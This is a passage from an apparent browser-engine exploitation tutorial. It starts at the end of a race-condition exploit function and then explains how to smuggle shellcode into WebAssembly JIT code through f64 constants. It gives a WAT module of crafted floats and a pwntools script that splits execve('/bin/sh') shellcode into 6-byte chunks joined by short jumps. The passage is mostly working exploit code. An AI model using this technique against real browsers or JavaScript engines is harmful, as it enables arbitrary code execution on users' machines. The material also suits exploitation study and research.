 ```js
    }
    else{
        print("Double reference failed. Race condition not achieved. ")
    }
}

exploit();
```

## How to Smuggle shellcode?

For example, Lets say we have the following `WAT` file which we used as our wasm instance, the floating values in the IEEE format convert to a 8 byte value. In memory, they are something like `mov reg, value, more ins`, So we can abuse this to put 6 byte shellcode along with the relative jump to the next instruction. 
```wasm
(module
  (func (export "main") (result f64)
    f64.const 1.630394162327604e-270
    f64.const 1.630523884017562e-270
    f64.const 1.6304934513099134e-270
    f64.const 1.6415294311136155e-270
    f64.const 1.6306027780368592e-270
    f64.const 1.6306160067349917e-270
    f64.const 1.6305242777505848e-270
    f64.const 1.6305242777505848e-270
    drop
    drop
    drop
    drop
    drop
    drop
    drop
))
```

So I have a Sample program to do the same.
```py
from pwn import *
from ctypes import *

instructions = [
"mov ebx, 0x0068732f",
"shl rbx, 32",
"mov edx, 0x6e69622f",
"add rbx, rdx",
"push rbx",
"xor eax, eax",
"mov al, 0x3b",
"mov rdi, rsp",
"xor edx, edx",
"xor rsi, rsi",
"syscall",
"nop",
"nop"
]
context.arch = "amd64"
tmp = b""
for ins in instructions:
    if(len(asm(ins) + tmp) > 6):
        print(hex(u64((tmp.ljust(6, b"\x90") + asm("jmp $+9")))))
        tmp = asm(ins)
    else:
        tmp += asm(ins) 
```